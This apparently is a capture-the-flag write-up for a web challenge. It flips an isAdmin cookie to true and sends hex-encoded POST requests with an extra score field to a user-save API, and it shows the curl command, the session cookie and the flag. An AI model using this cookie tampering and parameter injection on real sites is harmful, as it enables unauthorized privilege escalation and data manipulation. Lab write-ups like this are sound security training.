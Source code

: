 # Web Framework & API Vulnerabilities High Score

Visiting the site at **http://141.85.224.115:7001/**, we found a simple login and registration form. Inspecting the HTML, we discovered that once logged in, we are redirected to /account.php, which allows us to: View our score and user info Submit updated username/email via an AJAX POST request to /api-save-user.php

```js
var data = 'username='+username+'&email='+email;
data = a2hex(data);
$.ajax({
  type: "POST",
  url: "api-save-user.php",
  data: {q: data},
  success: function(data) {
    console.log(data);
  }
});
```

- The data is hex-encoded client-side before being sent.
- No CSRF tokens or validation observed.

We decoded and crafted our own **POST** requests to **api-save-user.php**:
- While inspecting cookies, we noticed a cookie: **isAdmin=false**.
- We manually modified it to: **isAdmin=true**.

And reloaded **/account.php** — it looked visually identical, but we suspected this cookie may unlock some backend functions.

We then tried submitting extra parameters, like a score field:

```bash
username=test&email=test@gmail.com&score=1 {max_score + 1}
```

Encoded and submitted:

```bash
echo -n 'username=test&email=test@gmail.com&score=1' | xxd -p

curl -X POST http://141.85.224.115:7001/api-save-user.php \
  -d 'q=757365726e616d653d6461646126656d61696c3d78656e6f776176653140676d61696c2e636f6d2673636f72653d32' \
  -b "PHPSESSID=9bdded797488d3b70c97fe2ca81f57b7; isAdmin=true"
```

It was accepted by the API: **["Success! Your info has been saved!"]**

But the leaderboard did not reflect the updated score only when the cookie was true.. and we got the flag: **SSS{the_greatest_0f_them_all}**
